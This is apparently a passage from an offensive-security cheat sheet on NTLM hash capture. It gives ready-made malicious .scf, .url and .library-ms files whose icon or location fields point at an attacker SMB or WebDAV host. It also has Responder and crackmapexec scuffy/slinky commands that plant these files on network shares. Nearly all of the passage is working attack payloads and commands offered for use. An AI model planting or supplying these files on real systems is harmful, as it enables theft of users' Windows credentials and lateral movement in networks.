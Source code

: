 ### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```powershell
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Using [`crackmapexec`](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/slinky.py):

```ps1
crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
```

### URL Files

This attack also works with `.url` files and `responder -I eth0 -v`.

```powershell
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### Windows Library Files 

> Windows Library Files (.library-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```
